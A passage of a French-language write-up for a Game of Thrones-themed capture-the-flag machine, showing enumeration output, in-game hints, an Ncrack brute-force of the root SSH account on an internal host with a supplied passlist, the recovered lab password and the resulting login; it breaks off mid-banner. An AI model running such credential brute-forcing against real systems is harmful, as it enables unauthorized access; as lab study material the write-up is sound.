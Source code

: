 ```plain
uid=1000(daenerystargaryen) gid=1000(daenerystargaryen) groups=1000(daenerystargaryen),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
daenerystargaryen@7kingdoms:~$ uname -a
Linux 7kingdoms 4.9.0-3-amd64 #1 SMP Debian 4.9.30-2+deb9u2 (2017-06-26) x86_64 GNU/Linux
```

Le fichier */etc/passwd* indique la présence de deux utilisateurs non-root (dont le notre) :  

```plain
daenerystargaryen:x:1000:1000:daenerystargaryen,,,:/home/daenerystargaryen:/bin/bash
branstark:x:1001:1001::/home/branstark:/bin/bash
```

Le seul fichier que l'on trouve pour *branstark* c'est son home-directory... Ça fait short :| Et on ne dispose pas d'une entrée sudoers quelconque.  

Heureusement il y a des indices dans notre home à nous (*checkpoint.txt*) :  

> "Dragonglass. Frozen fire, in the tongue of old Valyria. Small wonder it is anathema to these cold children of the Other" - The Red Woman Melisandre  
> 
>   
> 
> "Large amounts of Dragonglass can be found on Dragonglass mine (172.25.0.2). The mine can be accessed only from here. We are very close... Fail2ban magic is not present there, maybe we can reach the 'root' of the problem pivoting from outside to use this digger" - Samwell Tarly  
> 
>   
> 
> "The White Walkers don't care if a man's free folk or crow. We're all the same to them, meat for their army. But together we can beat them" - Jon Snow

Ok, le commentaire de *Samwell Tarly* laisse entendre que l'on doit bruteforcer le compte SSH root sur 172.25.0.2. Pour celà on a une passlist dans le fichier *digger.txt* présent sur le système.  

Une fois *Ncrack* et ses librairies copiées sur le système :  

```plain
LD_LIBRARY_PATH=. ./ncrack -u root -P ../digger.txt ssh://172.25.0.2 -T insane

Starting Ncrack 0.6 ( http://ncrack.org ) at 2017-11-04 02:34 CET

Discovered credentials for ssh on 172.25.0.2 22/tcp:
172.25.0.2 22/tcp ssh: 'root' 'Dr4g0nGl4ss!'

Ncrack done: 1 service scanned in 120.02 seconds.

Ncrack finished.
```

Let's go !  

```plain
daenerystargaryen@7kingdoms:~$ ssh root@172.25.0.2
The authenticity of host '172.25.0.2 (172.25.0.2)' can't be established.
ECDSA key fingerprint is SHA256:CLkjibFJaJn7gL10+IfE7LWYVS34ZgavwWKn+ej4LaU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.25.0.2' (ECDSA) to the list of known hosts.
root@172.25.0.2's password:

You found the
 ____                          _
|    \ ___ ___ ___ ___ ___ ___| |___ ___ ___
|  |  |  _| .'| . | . |   | . | | .'|_ -|_ -|
|____/|_| |__,|_  |___|_|_|_  |_|__,|___|___|
              |___|       |___|
       _
 _____|_|___ ___
```